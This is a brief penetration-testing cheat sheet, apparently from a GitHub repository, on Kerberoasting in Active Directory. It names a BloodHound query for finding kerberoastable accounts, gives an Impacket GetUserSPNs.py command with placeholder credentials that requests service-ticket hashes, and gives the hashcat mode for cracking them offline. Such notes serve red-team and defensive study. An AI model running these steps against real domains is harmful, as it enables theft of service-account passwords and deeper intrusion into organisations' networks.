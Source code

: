 # Kerberoasting

Any user can retrieve the hash of certain service accounts in an Active Directory environment. These service accounts are said to be "kerberoastable." With the hash in hand, you can attempt to crack it offline and use the cracked password for further access into the environment.

## Discover which users are "kerberoastable"

```text
Use Bloodhound's prebuilt "List All Kerberoastable Users" query.
```

## Obtain the hash of a "kerberoastable" user

```bash
GetUserSPNs.py -dc-ip $DC_IP $DOMAIN/$DOMAIN_USER:$DOMAIN_USER_PASSWORD -request
```

## Hashcat mode for offline cracking

```text
13100 
```
